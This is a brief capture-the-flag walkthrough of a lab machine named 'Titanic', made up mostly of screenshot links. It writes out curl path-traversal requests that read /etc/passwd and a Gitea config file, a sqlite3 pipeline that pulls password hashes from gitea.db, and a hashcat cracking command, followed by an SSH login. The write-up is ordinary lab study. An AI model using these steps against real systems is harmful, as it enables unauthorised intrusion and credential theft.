 ```yaml
---
title: TITANIC
description: walkthrough
---
```


![image.png](../../../assets/TITANIC/image.png)

Titanic is easy linux machine. 

### Reconnaissance

Nmap

![image.png](../../../assets/TITANIC/image%201.png)

![image.png](../../../assets/TITANIC/image%202.png)

Two ports are open port 22 ssh and port 80 http

the ip is redirected to [http://titanic.htb](http://titanic.htb) I add the domain to /etc/hosts file

![image.png](../../../assets/TITANIC/image%203.png)

![image.png](../../../assets/TITANIC/image%204.png)

![image.png](../../../assets/TITANIC/image%205.png)

version and application use for the website

![image.png](../../../assets/TITANIC/image%206.png)

two hidden directories found

![image.png](../../../assets/TITANIC/image%207.png)

![image.png](../../../assets/TITANIC/image%208.png)

there is noting 

![image.png](../../../assets/TITANIC/image%209.png)

![image.png](../../../assets/TITANIC/image%2010.png)

![image.png](../../../assets/TITANIC/image%2011.png)

![image.png](../../../assets/TITANIC/image%2012.png)

I ask ai to analyze the nikto scan and above image are the result I got 

some of them make sense but not all of them 

checking the functionalities of the main page of titanic 

![image.png](../../../assets/TITANIC/image%2013.png)

submit the details

![image.png](../../../assets/TITANIC/image%2014.png)

there is program running in the background when I submit the detail

a request to download file 

![image.png](../../../assets/TITANIC/image%2015.png)

I nearly forgot the important step to perform which is subdomain enumeration

![image.png](../../../assets/TITANIC/image%2016.png)

![image.png](../../../assets/TITANIC/image%2017.png)

there is a subdomain called “dev”

![image.png](../../../assets/TITANIC/image%2018.png)

on the background I run the command to find the hidden directories 

![image.png](../../../assets/TITANIC/image%2019.png)

![image.png](../../../assets/TITANIC/image%2020.png)

when I was just checking the functionality of the website I got this code 

![image.png](../../../assets/TITANIC/image%2021.png)

![image.png](../../../assets/TITANIC/image%2022.png)

I really need to try this 

```bash
curl -X GET "http://titanic.htb/download?ticket=../../../../etc/passwd"
```

![image.png](../../../assets/TITANIC/image%2023.png)

![image.png](../../../assets/TITANIC/image%2024.png)

from the above information:

- a normal user “developer”
- user developer has a home directory(/home/developer) and a **bash shell**
- there is another user called “_laurel” and no login shell

[Installation with Docker | Gitea Documentation](https://docs.gitea.com/installation/install-with-docker)

gitea.com

![image.png](../../../assets/TITANIC/image%2025.png)

**point to remember:**

- the directory name will be gitea before installing gitea

**Now what’s next?**

### Enumeration

- there is download endpoint which sends request to serve and we can take advantage of it
- we found out the user “developer”
- the developer is using gitea

bringing the info together 

![image.png](../../../assets/TITANIC/image%2026.png)

![image.png](../../../assets/TITANIC/cf9dc68e-fdcc-4a03-9550-7217cf5407f8.png)

we know that there is a user “developer” and those endpoint can be used by the developer 

we can take advantage of download endpoint to get this file

```bash
curl --path-as-is http://titanic.htb/download?ticket=../../home/developer/gitea/
data/gitea/conf/app.ini
```

![image.png](../../../assets/TITANIC/image%2027.png)

![image.png](../../../assets/TITANIC/image%2028.png)

this subdomain gives nothing, just the main page of titanic

![image.png](../../../assets/TITANIC/image%2029.png)

there is another file called “gitea.db” 

lets download it

![image.png](../../../assets/TITANIC/image%2030.png)

**what I can do with this file?**

![image.png](../../../assets/TITANIC/image%2031.png)

![image.png](../../../assets/TITANIC/image%2032.png)

![image.png](../../../assets/TITANIC/image%2033.png)

![image.png](../../../assets/TITANIC/image%2034.png)

how to extract hash from gitea.db

[HTB: Compiled](https://0xdf.gitlab.io/2024/12/14/htb-compiled.html)

```bash
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; 
do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64);
 salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64);
  name=$(echo $data | cut -d'|' -f 3); 
  echo "${name}:sha256:50000:${salt}:${digest}"; done | te
```

![image.png](../../../assets/TITANIC/image%2035.png)

to crack the hash it is in the above blog

```bash
hashcat gitea.hashes rockyou.txt --user 
```

![image.png](../../../assets/TITANIC/image%2036.png)

![developer’s password](../../../assets/TITANIC/image%2037.png)

developer’s password

got the user “developer” password. there is we found ssh port 22 open in the nmap scan

ssh login 

![ssh login](../../../assets/TITANIC/image%2038.png)

ssh login

![login as developer](../../../assets/TITANIC/image%2039.png)

login as developer

### Lateral Movement

![image.png](../../../assets/TITANIC/image%2040.png)

![image.png](../../../assets/TITANIC/image%2041.png)

![image.png](../../../assets/TITANIC/image%2042.png)

When I was just seeing around the directories I just got the root flag

![Machine Pwned!](../../../assets/TITANIC/image%2043.png)

Machine Pwned!